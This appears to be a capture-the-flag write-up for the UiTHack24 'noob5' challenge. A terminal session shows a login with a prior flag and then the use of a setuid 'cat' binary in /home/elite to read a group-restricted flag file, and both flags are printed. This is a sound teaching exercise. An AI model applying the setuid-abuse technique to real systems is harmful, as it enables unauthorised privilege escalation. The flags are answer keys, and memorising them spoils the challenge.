 # noob5

Get the flag to join the galactic elite!

You can connect to the server with the following command: `nc uithack.td.org.uit.no 6004`

The username is `noob5`

The password is the flag from `noob4`

`nc uithack.td.org.uit.no 6004`

# Writeup

In this it seems like the flag is hidden but only readable for `root` or `elite`. So I must become one of them, the most obvious is `elite`. I quickly check `/home/elite/` and find a executable `cat` when executed will act on behalf of the accounts able to read the file. So the solution was to use that file to cat the flag.

```bash
$ nc uithack.td.org.uit.no 6004
Username: noob5
Password: UiTHack24{d4sh_31337}
Logged in! Use 'exit' to logout
Here is your shell!

flag.txt
login
ynetd
cat flag.txt
cat: flag.txt: Permission denied
ls -lah
total 64K
drwxr-xr-x 1 root root  4.0K Feb 15 10:07 .
drwxr-xr-x 1 root root  4.0K Feb 15 10:07 ..
-rwxr-xr-x 1 root root   220 Jan  6  2022 .bash_logout
-rwxr-xr-x 1 root root  3.7K Jan  6  2022 .bashrc
-rwxr-xr-x 1 root root   807 Jan  6  2022 .profile
-r--r----- 1 root elite   35 Feb 15 09:44 flag.txt
-rwxr-xr-x 1 root root   17K Feb 15 09:44 login
-rwxr-xr-x 1 root root   19K Feb 15 09:44 ynetd
ls -lah /home/elite
total 56K
drwxr-xr-x 1 root root  4.0K Feb 15 10:07 .
drwxr-xr-x 1 root root  4.0K Feb 15 10:07 ..
-rwxr-xr-x 1 root root   220 Jan  6  2022 .bash_logout
-rwxr-xr-x 1 root root  3.7K Jan  6  2022 .bashrc
-rwxr-xr-x 1 root root   807 Jan  6  2022 .profile
-rwsr-xr-x 1 root elite  35K Feb 15 10:07 cat
/home/elite/cat ./flag.txt 
UiTHack24{7h3_n00b_g4l4ct1c_31337}
```